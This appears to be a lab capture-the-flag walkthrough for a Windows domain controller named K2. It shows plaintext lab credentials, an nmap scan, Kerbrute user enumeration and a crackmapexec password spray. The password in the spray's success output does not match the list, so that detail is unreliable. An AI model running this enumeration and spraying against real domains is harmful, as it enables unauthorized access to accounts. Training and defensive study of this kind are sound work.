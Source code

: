 # K2

## Machine Info

FQDN: K2Server.k2.thm

Domain: k2.thm

Domain SID: S-1-5-21-1966530601-3185510712-10604624



Data from Base Camp phase

```
james:Pwd@9tLNrC3!       James Bold 
root:RdzQ7MSKt)fNaz3!
rose:VrMAogdfxW!9        Rose Bud

bob:PasSW0Rd321
steve:St3veRoxx32
cait:PartyAlLDaY!32
xu:L0v3MyDog!3!
ash:PikAchu!IshoesU!
```



## Ports Scan

```bash
nmap -T4 -A -p- --min-rate 1000 10.10.145.48 -oN port_scan.txt

Nmap scan report for 10.10.145.48
Host is up (0.038s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-30 13:55:51Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: k2.thm0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: k2.thm0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-07-30T13:57:24+00:00; -3s from scanner time.
| ssl-cert: Subject: commonName=K2Server.k2.thm
| Not valid before: 2025-07-29T13:51:27
|_Not valid after:  2026-01-28T13:51:27
| rdp-ntlm-info: 
|   Target_Name: K2
|   NetBIOS_Domain_Name: K2
|   NetBIOS_Computer_Name: K2SERVER
|   DNS_Domain_Name: k2.thm
|   DNS_Computer_Name: K2Server.k2.thm
|   DNS_Tree_Name: k2.thm
|   Product_Version: 10.0.17763
|_  System_Time: 2025-07-30T13:56:44+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open  pando-pub?
9389/tcp  open  mc-nmf        .NET Message Framing
49668/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49684/tcp open  msrpc         Microsoft Windows RPC
49713/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: K2SERVER; OS: Windows; CPE: cpe:/o:microsoft:windows

```



## AD user enum

All services has the anonymous/guest logon enable. We can think to use the data found in the previous challenge.

In AD env sometimes the username of the account is the first letter of name, dot, complete surname. Try to do this with 2 user found in the Linux Server.&#x20;

```
j.bold : Pwd@9tLNrC3!
r.bud : VrMAogdfxW!9
```

### AD user verify

To verify if the users exist in the domain we can use this command with Kerbrute tool:

```bash
./kerbrute_linux_amd64 userenum userlist.txt  --domain k2.thm --dc 10.10.145.48
```

<figure><img src="../../../../.gitbook/assets/image (346).png" alt=""><figcaption></figcaption></figure>

Both users are valid.

Now we can try to do a Password Spray attack with credentials found in the previous challenge.

{% code title="passwd.list" %}
```
Pwd@9tLNrC3!
VrMAogdfxW!9
RdzQ7MSKt)fNaz3!
PasSW0Rd321
St3veRoxx32
PartyAlLDaY!32
L0v3MyDog!3!
PikAchu!IshoesU!
```
{% endcode %}

```bash
crackmapexec smb 10.10.145.48 -u userlist.txt -p passwd.list

SMB         10.10.145.48    445    K2SERVER         [+] k2.thm\r.bud:vRMkaVgdfxhW!8 
```

Try to this with Kerbrute or other tools.
